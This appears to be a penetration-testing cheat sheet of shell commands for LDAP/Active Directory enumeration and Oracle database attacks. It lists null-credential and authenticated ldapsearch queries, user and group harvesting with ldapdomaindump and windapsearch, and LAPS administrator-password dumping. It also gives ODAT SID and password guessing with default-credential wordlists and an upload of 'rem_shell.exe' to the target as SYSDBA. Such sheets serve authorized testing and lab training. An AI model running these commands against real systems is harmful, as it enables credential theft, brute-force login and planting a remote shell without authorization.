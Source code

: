 #### LDAP
```shell
sudo nmap $IP1 -p389 --script=ldap*

# check null credentials are valid
ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
# without creds
ldapsearch -v -x -b "DC=domain,DC=com" -H "ldap://192.168.x.x" "(objectclass=*)"

# LDAP Enumeration
ldapdomaindump -u '<domain>\<user>' -p '<pass>' <ip>
cat domain_users.json | jq  -r '.[].attributes.sAMAccountName[]'  > domain_users.txt

ldapsearch -x -H ldap://<ip> -D "<domain>\\" -W -b "DC=<domain>,DC=<tld>" 
# find all users
ldapsearch -x -H ldap://<ip> -D "<domain>\<user>" -W -b "DC=<domain>,DC=<tld>" "(objectClass=user)"

# find a specific user by username
ldapsearch -x -H ldap://<ip> -D "<domain>\<user>" -W -b "DC=<domain>,DC=<tld>" "(sAMAccountName=<name>)"
# find all groups
ldapsearch -x -H ldap://<ip> -D "<domain>\<user>" -W -b "DC=<domain>,DC=<tld>" "(objectClass=group)"
# find groups a specific user belongs to
ldapsearch -x -H ldap://<ip> -D "<domain>\<user>" -W -b "DC=<domain>,DC=<tld>" "(&(objectClass=group)(member=CN=John Doe,CN=Users,DC=<domain>,DC=<tld>))"
# find all computer objects
ldapsearch -x -H ldap://<ip> -D "<domain>\<user>" -W -b "DC=<domain>,DC=<tld>" "(objectClass=computer)"


windapsearch -d <domain> -u <username> -p <password> -m users --dc-ip $IP1
windapsearch -d <domain> -u <username> -p <password> -m members -s 'domain admin'
-m groups
computers
privileged-users

# LAPS Dumping
netexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
ldapsearch -x -H "ldap://dc-ip" -D "domain\user" -w "password" -b "dc=domain,dc=com" '(ms-MCS-AdmPwd=*)' ms-MCS-AdmPwd

```
#### Oracle Database (1521)
```shell
# [odat wiki](https://github.com/quentinhardy/odat/wiki)
odat sidguesser -s 10.10.10.82 -p 1521
odat passwordguesser -s 10.10.10.82 -p 1521 -d XE --accounts-file /opt/myarsenal/odat/accounts/accounts-multiple.txt

#  /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt
cp /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt odat/accounts/

# vim command to repace space with forward slash
# :%s/ /\//g


# ODAT has a utlfile module that allows you to upload, download or delete a file
odat utlfile -s 10.10.10.82 -p 1521 -U "scott" -P "tiger" -d XE --putFile /temp rem_shell.exe local_shell.exe --sysdba

```